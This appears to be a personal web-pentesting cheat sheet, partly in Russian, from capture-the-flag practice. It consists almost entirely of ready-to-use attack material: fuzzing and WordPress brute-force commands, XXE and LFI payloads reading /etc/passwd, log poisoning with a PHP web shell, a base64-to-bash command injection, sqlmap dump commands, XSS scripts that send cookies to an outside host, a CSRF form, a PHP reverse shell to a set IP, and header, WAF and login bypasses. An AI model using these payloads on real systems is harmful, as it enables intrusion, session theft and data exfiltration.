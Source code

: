 [back](../README.md)
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://$IP/island/2100/FUZZ.ticket

feroxbuster -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200

ffuf -replay-proxy http://127.0.0.1:8080 #ffuf with proxy

wfuzz -c -z file,numbers.txt -d "number=FUZZ" --hw 81 http://sustah.thm:8085/
```
---
#### Discover subdomains:
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 

gobuster vhost -u http://holo.live -w /usr/share/seclists/Discovery/DNS/subdomains.txt -t 30

wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fw 125

ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm"

amass enum -brute -passive -d nahamstore.com | anew subdomains.txt
```
---
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
---
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
---
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<product>
  <id>123</id>
  <name>Product XYZ</name>
  <quantity>&xxe;</quantity>
</product>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
```
---
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index

curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"

http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
---
#### bypass waf sqlmap
```
--tamper=space2comment
```

---
#### cadaver for WebDAV
---
#### payload in json format
```
"\";echo <base64 payload> | base64 -d | bash;\""
```
---
#### sqlmap
```bash
sqlmap -r req.txt -p <parametr> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt-p  -D <database_name> --dump-all
```

---
#### steal cookie
```
<script>window.location='http://<ip>:port/?cookie=' + document.cookie</script>

<script>document.write('<img src="https://site.com?cookie='+document.cookie+'"width=0 height=0 border=0 />');</script>
```
---
#### CSRF
```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="user" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```
---
#### lfi bypass
```
file/etc/passwd?/
file/etc/passwd%3F/
file/etc%252Fpasswd/
file/etc%252Fpasswd%3F/
file/etc/?/../passwd
file/etc/%3F/../passwd?
```

---
#### bypass
```
добавляешь пользователя, формат json, то добавить “role”:"admin"
────────────────────────────────────────────
можно байпаснуть /admin если не пускают: /adMin или /adMin/users
────────────────────────────────────────────
можно удалять эвенты в html, которые выполняют фильтровку 
────────────────────────────────────────────
w'h'o'a'm'i
────────────────────────────────────────────
what=order&id=5$(php -r '$sock=fsockopen("10.18.22.27",5555);exec("sh <&3 >&3 2>&3");')
────────────────────────────────────────────
....//....//....//....//....//....//etc/passwd%00.jpg 
....//....//....//..../
────────────────────────────────────────────
%20 - вместо пробела
%0A - с новой строки
file.php%00.jpg #null byte/....//....//etc/passwd%00
────────────────────────────────────────────
можно перезарегаться за пользователя, добавив просто пробел перед его username
────────────────────────────────────────────
bypass limit
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1
────────────────────────────────────────────
login with '*'
search with '.*'
────────────────────────────────────────────
поменять post на get и на оборот
────────────────────────────────────────────
поменять string на int и на оборот
────────────────────────────────────────────
username: ad'||'min
password: a' IS NOT 'b
────────────────────────────────────────────
` ` {}
────────────────────────────────────────────
register admin user with admin%00
────────────────────────────────────────────
index.php~ - сохнарить sourse code
────────────────────────────────────────────
────────────────────────────────────────────
────────────────────────────────────────────
────────────────────────────────────────────
```
---
#### links
- [xss](https://requestcatcher.com/)| [tools](https://webhook.site)| [request](https://fjksdfds.requestcatcher.com/)| [inspector](https://requestinspector.com/)
- [steal admin cookie/sqli](./src/src_for_src/marketplace.md) (tryhackme:marketplace)
- [ohmyweb](./src/src_for_src/omyweb.md)
